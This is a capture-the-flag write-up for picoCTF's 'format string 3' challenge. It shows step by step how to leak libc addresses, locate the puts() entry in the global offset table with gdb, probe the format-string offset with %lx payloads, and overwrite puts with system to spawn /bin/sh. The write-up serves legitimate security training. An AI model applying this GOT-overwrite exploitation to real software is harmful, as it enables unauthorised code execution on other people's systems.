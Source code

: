 # format string 3 #

## Description ##

This program doesn't contain a win function. How can you win? Download
the binary here. Download the [source
here](format-string-3.c). Download libc here, download the interpreter
here. Run the binary with these two files present in the same
directory.

Additional details will be available after launching your challenge instance.

https://play.picoctf.org/events/73/challenges/challenge/449

## Hints ##

Is there any way to change what a function points to?

## Solution ##

Run executable:

	Howdy gamers!
	Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f1f3c0c83f0
	Hi
	Hi
	/bin/sh

Idea:

Instead of `puts(normal_string)` in line 28, we want to call something like
`system(normal_string)`. As `normal_string` is `'/bin/sh'` this should
give us some access to the flag.


Overwrite the address of `puts()` with the address of `system()`. Both
are in libc, and we can figure out their addresses as the program
gives away the address of `setvbuf()` in libc. This is similar to 
https://blog.pwntools.com/posts/got-overwrite/


Let's find the offsets of the relevant functions in the provided libc:

``` bash
readelf -s libc.so.6 | grep -E ' puts@@| setvbuf@@| system@@'
```

(or use `objdump -T libc.so.6` which prints the dynamic symbol table)

``` comments
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
  1459: 0000000000079bf0   550 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```

As `puts()` has already been called once when we want to overwrite its
address with that of `system()`, an entry will be available in the
global offset table (GOT) of the process.


So where is the GOT? 

``` bash
objdump -d -j .got.plt format-string-3
```

returns

``` comments
format-string-3:     file format elf64-x86-64


Disassembly of section .got.plt:

0000000000404000 <_GLOBAL_OFFSET_TABLE_>:
  404000:       18 3e 40 00 00 00 00 00 00 00 00 00 00 00 00 00     .>@.............
        ...
  404018:       30 10 40 00 00 00 00 00 40 10 40 00 00 00 00 00     0.@.....@.@.....
  404028:       50 10 40 00 00 00 00 00 60 10 40 00 00 00 00 00     P.@.....`.@.....
```

Use `gdb` to see the entry of the GOT right before `puts()` is called:

``` gdb
b *main+175
r
x /8a 0x404000
```

``` comments
(gdb) b *main+175
Breakpoint 1 at 0x4012f2
(gdb) r
Starting program: /home/kali/tmp/format string 3/format-string-3 
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7ffff7e5a3f0
ABC
ABC

Breakpoint 1, 0x00000000004012f2 in main ()
(gdb) x /8a 0x404000
0x404000:       0x403e18        0x7ffff7ffe2d0
0x404010:       0x7ffff7fdca10  0x7ffff7e59bf0 <puts>
0x404020 <__stack_chk_fail@got.plt>:    0x401040        0x7ffff7e36250 <printf>
0x404030 <fgets@got.plt>:       0x7ffff7e57d40 <fgets>  0x0
(gdb)
```


So the address of `puts()` on the stack is stored in `0x404018`.
Let's doublecheck the offsets in `calc`:


1. `setvbuf()` is at `0x7ffff7e5a3f0` on the stack and at `0x7a3f0` in `libc`:

		; 0x7ffff7e5a3f0 - 0x7a3f0 
		0x7ffff7de0000

2. `puts()` is at `0x7ffff7e59bf0` on the stack and at `0x79bf0` in `libc`:

		; 0x7ffff7e59bf0 - 0x79bf0
		0x7ffff7de0000

So in order to call `system()` instead of `puts()` we need to write

	addr_of_setvbuf_on_stack - addr_of_setvbuf_in_libc + addr_of_system_in_libc

at `0x404018`. 


If the offset is known, the `fmtstr_payload()` of `pwnlib` can
generate a suitable payload. Let's find the offset:

``` bash
./format-string-3
```

``` comments
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fdac03ae3f0
3333333.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
3333333.7fdac050c963.fbad208b.7fffa68584a0.1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.2e33333333333333.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25
/bin/sh
```

The sequence of '3' reappears at position 39, so the offset i 38. Now
all the information is available. The script
[`pwn_format_string_3.py`](pwn_format_string_3.py) automates the
process.

## Learnings ##

* Find the offset (address) of a function in a dynamic library:
  `readelf -s libc.so.6 | grep -E ' puts@@'`
* Find the offset (address) of a function in a dynamic library: 
  `objdump -T libc.so.6`
* Find the global offset table (GOT) in an executable 
  `objdump -d -j .got.plt format-string-3`

